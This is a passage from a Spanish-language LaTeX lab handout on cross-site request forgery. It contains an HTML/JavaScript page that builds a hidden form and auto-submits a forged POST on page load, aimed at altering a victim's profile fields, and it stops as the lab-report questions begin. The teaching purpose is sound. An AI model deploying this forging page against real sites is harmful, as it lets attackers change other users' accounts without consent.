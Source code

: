 \begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

En la línea  Line~, el valor \texttt{2} establece el nivel de acceso público de un campo en particular.
Esto es necesario de otra forma, el nivel de acceso será puesto como privado por defecto lo que hara que otros usuarios no puedan verlo. 
Cabe aclarar que al hacer copy and paste del código en el archivo PDF, muy a menudo, las comillas dobles y en especial las comillas simples, pueden convertirse en símbolos diferentes que parecen similares. Esta situación causará errores en el código, así que tenga en cuenta este escenario. Cuando esto suceda, elimínelos y escriba manualmente esos símbolos.

\paragraph{Preguntas.}
Además de describir su ataque de forma detallada, deberá de responder las siguientes preguntas en su informe de laboratorio:

